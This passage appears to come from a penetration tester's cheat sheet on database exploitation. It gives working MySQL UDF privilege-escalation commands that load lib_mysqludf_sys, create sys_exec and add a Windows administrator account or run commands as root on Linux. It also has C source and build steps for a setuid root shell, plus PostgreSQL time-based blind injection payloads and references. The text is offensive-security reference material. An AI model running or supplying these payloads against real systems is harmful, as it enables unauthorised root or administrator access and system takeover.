 On Windows:

```sql
USE mysql;
CREATE TABLE npn(line blob);
INSERT INTO npn values(load_file('C://xampplite//htdocs//mail//lib_mysqludf_sys.dll'));
SELECT * FROM mysql.npn INTO DUMPFILE 'c://windows//system32//lib_mysqludf_sys_32.dll';
CREATE FUNCTION sys_exec RETURNS integer SONAME 'lib_mysqludf_sys_32.dll';
SELECT sys_exec("net user npn npn12345678 /add");
SELECT sys_exec("net localgroup Administrators npn /add");
```

On Linux:

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/home/npn/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/usr/lib/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out; chown npn.npn /tmp/out');

npn@pwn:~$ cat /tmp/out
  uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)

// Create a shell, compile it, "chmod +s /tmp/shell" and get reverse shell
```

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
    setuid(0); setgid(0); system(“/bin/bash”);
}

```

```bash
gcc -o /tmp/shell /home/npn/shell.c
chmod +s /tmp/shell
```
## Postgresql

- Online complier: <https://rextester.com/l/postgresql_online_compiler>
- Ref:
  - <https://dotcppfile.wordpress.com/2014/07/12/blind-postgresql-sql-injection-tutorial/>
  - <https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection/rce-with-postgresql-extensions>
  - <https://pulsesecurity.co.nz/articles/postgres-sqli>
  - <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution>
- Docs:
  - String operations: <https://www.postgresql.org/docs/9.2/functions-string.html>
  - Lexical structure: <https://www.postgresql.org/docs/9.2/sql-syntax-lexical.html>
  - Copy: <https://www.postgresql.org/docs/9.2/sql-copy.html>
  - Large Object: <https://www.postgresql.org/docs/9.2/largeobjects.html>
- Can do stacked queries (`<query1>;<query2>`)
  - Returns multiple result-sets
  - Time based blind: `<injection>; select pg_sleep(10);`
    - `<injection>; SELECT case when (SELECT current_setting($$is_superuser$$)) = $$on$$ then pg_sleep(10) end;--`
- `SELECT current_setting('is_superuser');`
- Base64: `select convert_from(decode('<base64>', 'base64'), 'utf-8');`
  - Decoding: `SELECT CONVERT_FROM(DECODE(field, 'BASE64'), 'UTF-8') FROM table;`
  - Encoding: `SELECT ENCODE(CONVERT_TO(field, 'UTF-8'), 'base64') FROM table;`